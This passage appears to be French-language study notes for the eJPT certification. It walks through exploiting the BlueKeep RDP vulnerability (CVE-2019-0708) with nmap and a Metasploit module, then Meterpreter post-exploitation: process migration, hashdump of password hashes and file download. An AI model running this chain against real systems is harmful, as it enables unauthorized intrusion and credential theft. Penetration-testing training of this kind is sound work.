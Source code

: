 ### Vérification manuelle BlueKeep
```bash
# Test avec rdesktop (crash si vulnérable)
timeout 10 rdesktop target:3389

# Avec scripts custom
python bluekeep_checker.py target_ip
```

---

## 🖥️ 7. Post-exploitation BlueKeep

### Session Meterpreter BlueKeep
```bash
# Si exploitation réussie
getuid                   # NT AUTHORITY\SYSTEM
sysinfo                  # Infos système
getpid                   # Process ID

# Stabilisation session
ps                       # Lister processus
migrate <pid_stable>     # Migrer vers processus stable
```

### Problèmes post-exploitation BlueKeep
```bash
# Session instable fréquente
migrate <pid>            # Migration obligatoire
hashdump                 # Dump rapide avant crash
download C:\\flag.txt    # Récupération rapide des fichiers

# Si session crash
sessions -l              # Vérifier sessions actives
sessions -i <id>         # Reconnecter si possible
```

---

## 🎯 8. Cas d'usage spécifiques eJPT

### Scénario 1: Windows 7 BlueKeep
```bash
# 1. Découverte RDP
nmap -p3389 -sV target
# OS: Windows 7 détecté

# 2. Test BlueKeep
nmap -p3389 --script rdp-vuln-ms19-0708 target
# Résultat: VULNERABLE

# 3. Exploitation Metasploit
msfconsole -q
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS target
set LHOST attacker_ip
check
exploit

# 4. Post-exploitation si succès
getuid
sysinfo
hashdump
```
